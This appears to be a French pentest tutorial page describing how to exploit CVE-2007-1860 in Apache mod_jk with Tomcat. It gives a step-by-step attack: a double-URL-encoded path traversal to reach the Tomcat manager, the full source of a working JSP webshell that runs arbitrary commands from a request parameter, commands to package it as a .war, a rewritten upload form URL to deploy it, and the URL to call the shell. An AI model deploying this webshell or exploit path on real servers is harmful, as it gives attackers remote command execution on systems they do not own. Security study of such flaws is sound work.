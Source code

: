 # CVE-2007-1860: mod\_jk

Sur les systèmes Unix/Linux Tomcat ne peut pas être sur le port 80 sauf si on est Root. Cependant pour qu’il soit accessible par la majorité des utilisateurs ils doit disponible sur le port 80 (ou 443 → Https ).

C’est une des raisons pour laquelle les devs utilise un Apache pour “proxy” les requêtes faites sur le port 80.

cette configuration peut être aussi utilisé pour :

* contenu static directement depuis Apache et limité la charge de Tomcat
* Load balance les requêtes entre 2 Tomcats ou plus.

### 1ere Étape : Accès au Manager <a href="#cve-2007-1860-mod_jk-1ereetape-accesaumanager" id="cve-2007-1860-mod_jk-1ereetape-accesaumanager"></a>

Le web Serveur Apache qui utilise mod\_jk et le serveur d’application Tomcat vont procéder a un décodage du chemin fournis par le client.

Pour accéder au Manager nous devrons procéder a un double encodage. C’est la même exploitation qu’une ‘Directory Travesal' afin d’avoir accès a des répertoire qui ne sont pas supposé l'être.

| **Valeur** | **Url encoding** | **Double URL encoding** |
| ---------- | ---------------- | ----------------------- |
| **.**      | %2e              | %252e                   |

Chemin généré : `webapp/%252e%252e/manager/html`

Cette Astuce marche aussi pour d’autres serveurs d’application comme Jboss et Glassphish.

### 2eme Étape : Création d’un Webshell <a href="#cve-2007-1860-mod_jk-2emeetape-creationdunwebshell" id="cve-2007-1860-mod_jk-2emeetape-creationdunwebshell"></a>

Pour écrire un Webshell nous pouvons utiliser JPS ou une Servlet.

```
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%>
<pre><%=output %></pre>
```

il faudra ensuite créer un .war après avoir mis notre jsp dans un répertoire vide.

```
cd notreRepo
jar -cvf ../notrewar.war *
```

### 3eme Étape : Déploiement du .war <a href="#cve-2007-1860-mod_jk-3emeetape-deploiementdu.war" id="cve-2007-1860-mod_jk-3emeetape-deploiementdu.war"></a>

Si nous essayons de déployer le war nous allons avons en retour une 404.

Le manage ne fais pas de double encode.

Ainsi les solutions qui s’offre a nous sont les suivante :

* Utiliser le DevTools pour modifier l’url a la main
* Modifier la requête avec un proxy

Exemple :

```
<form action="/examples/html/upload;jsessionid=570DCE2CEE80E5886C9BE24CAFA1CCAB?org.apache.catalina.filters.CSRF_NONCE=FF9D941BBB6EB4D7E30F84C5EAC5CC7E" method="post" enctype="multipart/form-data">
```

Deviendrai :

```
<form action="http://vulnerable/examples/jsp/%252e%252e/%252e%252e/manager/html/upload;jsessionid=570DCE2CEE80E5886C9BE24CAFA1CCAB?org.apache.catalina.filters.CSRF_NONCE=FF9D941BBB6EB4D7E30F84C5EAC5CC7E" method="post" enctype="multipart/form-data">
```

\=> il faudra remettre l’url complète et utiliser le tips de Directory Traversal avec le double encodage des points !

### 4eme Étape : Exploitation <a href="#cve-2007-1860-mod_jk-4emeetape-exploitation" id="cve-2007-1860-mod_jk-4emeetape-exploitation"></a>

Pour acceder au endpoint de la meme maniere, nous devons utiliser le Directory Traversal et le double encodage.

Ainsi, pour notre exemple nous aurons :

`http://vulnerable/examples/jsp/%252e%252e/NotreWebshell/`

![](../.gitbook/assets/2407170681.png)
